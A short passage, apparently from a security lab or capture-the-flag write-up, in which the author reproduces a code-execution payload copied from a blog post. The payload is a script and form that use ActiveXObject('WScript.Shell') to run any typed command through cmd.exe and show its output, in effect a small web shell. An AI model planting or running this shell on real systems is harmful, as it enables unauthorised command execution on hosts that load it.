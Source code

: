 ![](images/2024-02-15_14-00_code_execution.png)

The payload I entered is copied from the blog post and written down below.

```c
<script>
    function shlExec() {
        var cmd = document.getElementById('cmd').value
        var shell = new ActiveXObject("WScript.Shell");
        try {
            var execOut = shell.Exec("cmd.exe /C \"" + cmd + "\"");
        } catch (e) {
            console.log(e);
        }
 
        var cmdStdOut = execOut.StdOut;
        var out = cmdStdOut.ReadAll();
        alert(out);
    }
</script>
 
<form onsubmit="shlExec()">
    Command: <input id="cmd" name="cmd" type="text">
    <input type="submit">
</form> 
```
